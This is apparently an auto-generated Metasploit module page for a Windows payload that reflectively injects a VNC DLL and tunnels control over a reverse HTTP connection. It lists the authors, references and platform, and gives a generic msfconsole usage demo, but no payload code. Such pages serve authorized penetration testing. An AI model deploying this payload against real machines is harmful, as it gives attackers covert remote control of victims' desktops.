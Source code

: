 ## VNC Server (Reflective Injection), Reverse HTTP Stager Proxy

Inject a VNC Dll via a reflective loader (staged). Tunnel 
communication over HTTP


## Module Name
payload/windows/vncinject/reverse_http_proxy_pstore

## Authors
* sf
* hdm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/vncinject/reverse_http_proxy_pstore
msf payload(reverse_http_proxy_pstore) > show targets
   ... a list of targets ...
msf payload(reverse_http_proxy_pstore) > set TARGET <target-id>
msf payload(reverse_http_proxy_pstore) > show options
   ... show and set options ...
msf payload(reverse_http_proxy_pstore) > run
```
    
    